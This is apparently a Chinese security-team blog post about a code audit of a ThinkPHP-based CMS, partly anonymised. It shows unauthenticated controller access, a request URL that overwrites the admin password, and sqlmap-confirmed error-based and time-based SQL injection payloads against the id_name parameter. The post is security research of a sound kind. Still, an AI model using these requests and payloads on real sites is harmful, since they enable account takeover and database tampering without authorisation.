 #  手把手教你审计PHP CMS漏洞 | 某腾CMS漏洞实战案例分析   
原创 C4安全团队运营  Code4th安全团队   2025-02-14 00:05  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1zkeOcS3nLmxTGCIMvAibwZgxlhGMlJ4h3FDPFfAj7TdcT0h3vADuxWA/640?wx_fmt=png&from=appmsg "")  
  
代码审计是保障Web应用安全的关键环节，但往往被许多开发者和企业忽视。无论是小型的个人网站，还是大型的电商、金融平台，代码的安全性都至关重要。在这个数字化时代，代码漏洞可能直接导致数据泄露、资金损失甚至法律风险，因此，发现并修复代码中的漏洞，是每个开发者和安全人员的责任。  
  
PHP代码审计的复杂性往往藏在代码的深处——从输入验证、数据处理到权限控制，任何一环的设计疏漏都可能成为攻击者的“入场券”，而多数开发者甚至企业的安全团队都对此缺乏系统认知。  
  
团队将分享典型的PHP代码CMS审计思路，希望师傅们能从中看到代码审计的另一种视角。有不明白的地方，欢迎加入我的交流群一起探讨交流。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1jz01tUoqiaRPztxJPZuiaibkvvDuSwib7mRVg5VIUIIvEWl2VLawRj6icQQ/640?wx_fmt=jpeg "")  
  
**前言**  
  
  
  
**PHP CMS入口在哪里？**  
  
这里的某腾CMS在最早期的挖掘过程中，作为代码审计练手的案例，给了我很多审计上面的经验  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1ibdnTp34vvPLLSoejHB6ic4qib91qnibLt6UZjrl0DXLa9EfuPsubXA3Gg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1mBzZRFM0yAKqtYM7bxng9E7YnOPYNiafZszpFl3o75BWYqoXQX82phw/640?wx_fmt=png&from=appmsg "")  
  
  
某腾CMS是基于ThinkPHP二次开发的内容管理系统，在某些方面继承了ThinkPHP的框架漏洞  
  
常见的命令执行利用方法是修复了的，但是自带的组件，比如Ueditor组件没有做鉴权，导致了文件上传等漏洞，下面是详细的审计文档  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1tL4PYkWx8PGYz5uAuMkckVwJC6t66IJIkB94615W8wkAP0ALhY2vyQ/640?wx_fmt=png&from=appmsg "")  
  
  
该PHP CMS主页截图如下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1HBic2TsrUqAouaWRcD2G12JwnZUAhpBqm00npfibnsKtqq3U3pDs1Gwg/640?wx_fmt=png&from=appmsg "")  
  
  
咱们来看下CMS的入口在哪里，ThinkPHP的对应路径访问方法遵从以下的规则：  
  
```
application路径下查看文件，根据以下对应的请求路径得到
m=mingteng&c=Uploadify&a=upload
m  --> 目录
c  --> controller文件
a  --> 方法
```  
  
  
/application文件夹内容如下，参数m可以指定访问的文件夹名称，这里有common、home、mingteng都可以访问下面的文件和对应方法  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT11VFs661FhuRT6YFFLXF8ZnS4h0Djia6Agg3ZLl4aWGiac5El3wp4LfdQ/640?wx_fmt=jpeg "")  
  
  
/mingteng/controller文件夹内容如下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT13uXute3a6lUV9icpwN6ibjXEiavpFjwBEI0Ur4BX0IvZdmYibWtx4Yb22w/640?wx_fmt=png&from=appmsg "")  
  
  
以文件夹其中的Uploadify.php文件为例，查看源码发现info数组里面是可以调用的方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1ibYt4vMkXgkx5CPueM7cqIicdibwkYwc93gcYVg8v2IKtibwicjXGeM8BJg/640?wx_fmt=png&from=appmsg "")  
  
请求传参m=mingteng&c=Uploadify&a=fileList，调用fileList方法为查看temp目录下的所有文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1p4RxITpOg1VjV8ibMmzzahZJthjNpmsRsibVSDyLGWlmCBPjfd4rD9vA/640?wx_fmt=png&from=appmsg "")  
  
这样捋清楚了请求方法，就能调用每个文件里面的方法且没有权限验证，一个个试结合代码审计，总能出洞  
  
  
**挖掘案例**  
  
  
  
**SQL注入出洞就是那么简单**  
  
在代码审计的过程中，我在控制器Index.php中发现了和数据库相关的参数名称  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1y93Vl2Qw6Pj3lj7MNugVpZQjbZbZNIdBwNrAZZPwuqHTiaJG7dONZ2Q/640?wx_fmt=png&from=appmsg "")  
  
  
没有权限验证也可以调用该changeTableVal中的方法  
  
构造：  
```
https://xxxx/index.php?m=mingteng&c=Index&a=changeTableVal&table=admin&id_name=admin_1&id_value=1&field=password&value=49ba59abbe56e057
```  
  
  
对照down下来的sql样例文件，构造一个类似的修改数据库功能路径，SQL语句执行是没有权限验证的。这里构造的第一步table为存在的表名，id_name设为不存在的键值  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT114kouDFbSU27S522sQIzjMLtL7f4xtoySA20126KIia3AMsUIPcXekA/640?wx_fmt=png&from=appmsg "")  
  
  
此处存在update语句的SQL注入漏洞，可以使用sqlmap进行验证  
  
```
Parameter: id_name (GET)
 Type: error-based
 Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
Payload: m=mingteng&c=Index&a=changeTableVal&table=admin&id_name=GTID_SUBSET(CONCAT(0x716b786b71,(SELECT (ELT(4471=4471,1))),0x71706a7a71),4471)&id_value=1&field=password&value=49ba59abbe56e057
 Type: time-based blind
 Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
Payload: m=mingteng&c=Index&a=changeTableVal&table=admin&id_name=(SELECT 7655 FROM (SELECT(SLEEP(5)))GTMX)&id_value=1&field=password&value=49ba59abbe56e057
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT10KJWnOMBZr6NTD9SVic5B4icxKzS0CicfvY6gz7NIPHhc2d1Gqe34iaQyw/640?wx_fmt=png&from=appmsg "")  
  
  
关于某腾的PHP CMS的代码审计的记录文档，已经放在团队的最新Freebuf知识大陆中，只是个红队内部小圈子  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1UvfRc5lESnK0kvomswnFgNEclbrdYNdiaR1icQgZkDlXjtGcb8tR9wKg/640?wx_fmt=png&from=appmsg "")  
  
扫码即可加入查看文档详细内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRfP3YQ1YMgSOYpU6bib2XT1IHYPzH7vpdQnZ7tGHCYRyyh8GtGLFAONGUsPTqPJ9tPiabXl9ZIKSZg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
用友U8cloud，  
是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。  
用友U8Cloud在全版本中存在反序列化漏洞。未经授权的攻击者可以通过访问FileTransportServlet类时构造恶意请求包。  
  
[](https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247485780&idx=1&sn=13897dbb76848e06e02f82ceeb9f02f9&scene=21#wechat_redirect)  
  
  
华天动力OA存在多个历史漏洞，结合源码进行分析。  
华天动力是我国首批OA企业,是双软认证的高新技术企业,专注  
OA办公系统  
20余年,开放免费OA系统下载试用,旗下OA产品累计为37500多个客户提供高效OA办公体验。  
  
[](https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247485708&idx=1&sn=42524032a2389e079ddd6bc610e512c5&scene=21#wechat_redirect)  
  
  
**致远A8**  
，又称致远互联A8  
协同管理软件  
，是面向中型、大型、集团型组织（集团版OA）的数字化协同运营中台。A8版本的系统小版本较多，本次分析用的是致远A8 V7 SP1版本源码。  
  
[](http://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247484688&idx=1&sn=928f50f70991a1979dcefb8d02cb02d6&chksm=c2516e39f526e72fae6fe053cf7ab537692bd5581a5552dfe7bfcee0588bd7e5c0d793f2f84b&scene=21#wechat_redirect)  
  
  
  
  
  
  
  
END  
  
  
  
关注Cod  
e4th安全团队  
  
了解更多安全相关内容~  
  
